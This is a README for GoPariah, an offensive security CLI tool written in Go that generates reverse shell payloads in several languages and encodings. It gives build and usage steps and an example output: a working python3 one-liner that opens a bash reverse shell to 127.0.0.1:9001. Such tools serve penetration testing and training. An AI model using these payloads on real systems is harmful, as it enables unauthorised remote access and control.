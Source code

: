 <div align=center>
  <img src="https://miro.medium.com/v2/resize:fit:1358/0*rs9e2N81fxl4n-Dx.png" width=250px>
</div>

# GOPARIAH

GoPariah is a tool to generate <i>reverse shell payloads</i> on the fly. Instead of having to navigate to [revshells.com](https://revshells.com/) or the [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) repository, you can easily generate different payloads from the CLI. It was inspired by [LazyPariah](https://github.com/octetsplicer/LAZYPARIAH) (a similar tool written in Ruby).

### Installing or Downloading Precompiled Binaries
You can build it from source by running the following commands:

```
$ git clone https://github.com/julio-cfa/gopariah.git
$ go build -o gopariah main.go
```
Or, alternatively, you can grab a precompiled binary from [releases](https://github.com/julio-cfa/gopariah/releases).
<br>PS: Don't forget to add it to your PATH.
### Usage
```
$ ./gopariah --help
Usage: ./gopariah <revshell-type> <lhost> <lport> 

> Available revshells: 
  bash
  bash_urlencode
  python
  python3
  python_b64
  python3_b64
  python_urlencode
  python3_urlencode
  mkfifo
  mkfifo_urlencode
  perl
  perl_b64
  perl_urlencode
  php
  php_b64
  php_urlencode
  powershell
  powershell_b64
  powershell_urlencode
```
### Example
```
$ ./gopariah python3 127.0.0.1 9001
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
